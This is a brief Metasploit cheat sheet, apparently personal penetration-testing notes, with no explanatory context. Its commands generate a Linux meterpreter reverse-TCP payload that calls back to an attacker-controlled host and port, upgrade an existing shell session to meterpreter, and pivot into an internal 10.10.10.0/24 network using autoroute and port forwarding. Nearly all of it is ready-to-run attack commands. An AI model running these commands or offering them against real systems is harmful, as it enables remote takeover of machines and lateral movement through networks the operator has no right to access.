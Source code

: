 # Metasploit

## meterpreter

### Payload generation

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$me LPORT=1234 --format=elf -o /tmp/rev
```

### Upgrading to meterpreter

- Use the `post/multi/manage/shell_to_meterpreter` module to upgrade.
- Use `sessions -u id` to upgrade a session.

## pivoting

```shell
run autoroute -s 10.10.10.0/24
```

```shell
run autoroute -p
```

```shell
portfwd add -l 1234 -p 80 -r $ip
```
